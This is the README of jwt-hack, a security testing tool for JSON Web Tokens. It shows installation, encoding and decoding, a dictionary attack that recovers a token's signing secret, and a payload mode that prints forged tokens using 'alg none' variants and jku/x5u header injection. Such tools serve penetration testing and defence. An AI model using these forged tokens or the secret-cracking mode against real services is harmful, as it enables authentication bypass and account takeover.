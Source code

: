 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat-square"> 
  <a href="https://snapcraft.io/jwt-hack"><img alt="jwt-hack" src="https://snapcraft.io/jwt-hack/badge.svg" /></a>
  <img src="https://img.shields.io/github/languages/top/hahwul/jwt-hack?style=flat-square"> <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626"> <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a> <img src="https://img.shields.io/github/issues-closed/hahwul/jwt-hack?style=flat-square"> 
<a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat-square"></a>
</h1>

## Installation
### go-get(dev version)
```
$ go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
$ brew tap hahwul/jwt-hack
$ brew install jwt-hack
```

### snapcraft
```
$ sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/91735126-cd719580-ebe6-11ea-83fc-9fa49ece37ea.png)

## Encode mode(JSON to JWT)
```
$ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
$ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
$ jwt-hack decode {JWT_CODE}
```

e.g 
```
$ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
$ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
$ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! This JWT Token signature secret is..   Signature=Verified Word=test
test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
INFO[0000] Invalid signature                             word=df
INFO[0000] Invalid signature                             word=zx
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
$ jwt-hack payload {JWT_CODE}
```

e.g
```
$ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
payload called
INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate jku payload                          header="{\"alg\":\"hs256\",\"jku\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate x5u payload                          header="{\"alg\":\"hs256\",\"x5u\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
